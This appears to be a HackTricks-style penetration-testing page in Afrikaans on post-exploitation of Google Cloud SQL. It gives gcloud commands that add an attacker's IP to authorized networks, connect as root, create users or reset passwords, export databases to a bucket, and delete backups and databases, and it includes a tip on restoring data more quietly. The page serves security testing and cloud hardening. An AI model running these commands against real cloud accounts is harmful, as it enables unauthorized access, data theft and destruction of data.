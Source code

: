 # GCP - Cloud SQL Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

Vir meer inligting oor Cloud SQL, kyk:

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Om met die databasisse te verbind, **het jy net toegang tot die databasispoort nodig** en moet jy die **gebruikersnaam** en **wagwoord** weet, daar is geen IAM vereistes nie. So, 'n maklike manier om toegang te verkry, veronderstel dat die databasis 'n publieke IP-adres het, is om die toegelate netwerke op te dateer en **jou eie IP-adres toegang te gee**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Dit is ook moontlik om **`--no-backup`** te gebruik om die **rugsteun** van die databasis te **onderbreek**.

Aangesien dit die vereistes is, is ek nie heeltemal seker waarvoor die toestemmings **`cloudsql.instances.connect`** en **`cloudsql.instances.login`** is nie. As jy dit weet, stuur 'n PR!

### `cloudsql.users.list`

Kry 'n **lys van al die gebruikers** van die databasis:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Hierdie toestemming laat toe om **nuwe gebruiker binne** die databasis te **skep**:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Hierdie toestemming laat toe om **gebruikers binne** die databasis te **opdateer**. Byvoorbeeld, jy kan sy wagwoord verander:
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Back-ups mag **ou sensitiewe inligting** bevat, so dit is interessant om hulle te kontroleer.\
**Herstel 'n rugsteun** binne 'n databasis:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Om dit op 'n meer stil manier te doen, word dit aanbeveel om 'n nuwe SQL-instansie te skep en die data daar te herstel in plaas van in die tans lopende databasisse.

### `cloudsql.backupRuns.delete`

Hierdie toestemming laat toe om rugsteun te verwyder:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Eksporteer 'n databasis** na 'n Cloud Storage-bucket sodat jy dit van daar kan toegang.
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importeer 'n databasis** (oorskryf) vanaf 'n Cloud Storage-bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Verwyder 'n databasis van die db-instantie:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{{#include ../../../banners/hacktricks-training.md}}

